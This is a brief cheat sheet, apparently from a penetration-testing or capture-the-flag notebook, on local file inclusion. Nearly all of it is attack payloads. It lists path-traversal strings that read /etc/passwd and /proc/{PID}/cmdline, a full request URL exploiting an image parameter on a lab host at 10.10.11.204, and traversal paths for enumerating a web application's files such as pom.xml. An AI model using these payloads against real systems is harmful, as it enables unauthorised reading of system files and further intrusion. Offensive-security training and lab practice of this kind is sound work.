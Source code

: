 # Local File Inclusion

Payloads

```powershell
/etc/passwd
```

Show command used to run the process

```powershell
/proc/{PID}/cmdline
```

```powershell
../../../../../../etc/passwd
```

<pre class="language-powershell"><code class="lang-powershell">http://10.10.11.204:8080/show_image?img=<a data-footnote-ref href="#user-content-fn-1">../../../../../../etc/passwd</a>
</code></pre>



Enumerate filesystem

```powershell
../../../../../../var/www
```

```powershell
 ../../../../../../var/www/WebApp
```

```powershell
 ../../../../../../var/www/WebApp/pom.xml
```

[^1]: 
